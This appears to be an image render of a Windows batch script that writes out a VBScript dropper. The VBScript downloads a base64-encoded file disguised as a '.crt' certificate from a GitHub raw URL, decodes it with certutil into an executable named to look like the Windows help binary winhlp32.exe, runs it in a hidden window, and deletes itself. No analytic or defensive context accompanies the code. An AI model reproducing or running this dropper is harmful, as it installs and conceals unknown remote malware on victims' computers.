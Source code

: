 echo Set objWinHttp = CreateObject("WinHttp.WinHttpRequest.5.1") > winhlplog.vbs
echo URL = "https://raw.githubusercontent.com/736f636865617461/kontrey/main/kon-trey-bra.crt" >> winhlplog.vbs
echo objWinHttp.open "GET", URL, False >> winhlplog.vbs
echo objWinHttp.send "" >> winhlplog.vbs
echo SaveBinaryData "C:\ProgramData\winhlp32\cert64.crt",objWinHttp.responseBody >> winhlplog.vbs
echo Function SaveBinaryData(FileName, Data) >> winhlplog.vbs
echo 	Const adTypeText = 1 >> winhlplog.vbs
echo 	Const adSaveCreateOverWrite = 2 >> winhlplog.vbs
echo 	Dim BinaryStream >> winhlplog.vbs
echo 	Set BinaryStream = CreateObject("ADODB.Stream") >> winhlplog.vbs
echo 	BinaryStream.Type = adTypeText >> winhlplog.vbs
echo 	BinaryStream.Open >> winhlplog.vbs
echo 	BinaryStream.Write Data >> winhlplog.vbs
echo 	BinaryStream.SaveToFile FileName, adSaveCreateOverWrite >> winhlplog.vbs
echo End Function >> winhlplog.vbs
echo Set objShell = WScript.CreateObject("WScript.Shell")>> winhlplog.vbs
echo objShell.Run "cmd /c powershell certutil -decode C:\ProgramData\winhlp32\cert64.crt C:\ProgramData\winhlp32\winhlp32.exe", 0, True>> winhlplog.vbs
echo WScript.Sleep(5000) >> winhlplog.vbs
echo Set WshShell = CreateObject("WScript.Shell") >> winhlplog.vbs
echo WshShell.Run chr(34) ^& "C:\ProgramData\winhlp32\winhlp32.exe" ^& chr(34), 0 >> winhlplog.vbs
echo Set WsgShell = Nothing >> winhlplog.vbs
echo WScript.Sleep(3000) >> winhlplog.vbs
echo Set oFso = CreateObject("Scripting.FileSystemObject") : oFso.DeleteFile Wscript.ScriptFullName, True >> winhlplog.vbs

